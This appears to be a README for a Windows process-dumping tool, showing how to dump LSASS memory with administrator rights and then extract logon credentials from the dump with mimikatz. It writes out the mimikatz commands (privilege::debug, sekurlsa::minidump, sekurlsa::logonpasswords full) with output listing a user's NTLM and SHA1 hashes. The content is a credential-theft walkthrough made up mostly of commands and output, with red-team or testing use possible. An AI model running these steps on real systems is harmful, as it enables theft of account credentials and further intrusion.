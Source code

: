 Create dump of process (need administrator rights)

![image](https://user-images.githubusercontent.com/13157446/130370304-7543ddde-fe67-4094-95d8-df3ecf252352.png)


Dump file is located

	C:\Users\win10\AppData\Local\Temp\lsass.DMP


Get passwords


	mimikatz # privilege::debug
	Privilege '20' OK

	mimikatz # sekurlsa::minidump lsass.DMP
	Switch to MINIDUMP : 'lsass.DMP'

	mimikatz # sekurlsa::logonpasswords full
	Opening : 'lsass.DMP' file for minidump...

	Authentication Id : 0 ; 2436075 (00000000:00252beb)
	Session           : Interactive from 1
	User Name         : win10
	Domain            : LOKI
	Logon Server      : LOKI
	Logon Time        : 8/21/2021 2:28:13 AM
	SID               : S-1-5-21-4116903850-2340306423-3138033007-1000
			msv :
			 [00010000] CredentialKeys
			 * NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0
			 * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
			 [00000003] Primary
			 * Username : win10
			 * Domain   : LOKI
			 * NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0
			 * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
			tspkg :
			wdigest :
			 * Username : win10
			 * Domain   : LOKI
			 * Password : (null)
			kerberos :
			 * Username : win10
			 * Domain   : LOKI
			 * Password : (null)
			ssp :
			credman :



## mimikatz logonpasswords

 cmd needs to run administrators rights / locally

	PS C:\Users\thor\Desktop\mimikatz\x64> .\mimikatz.exe
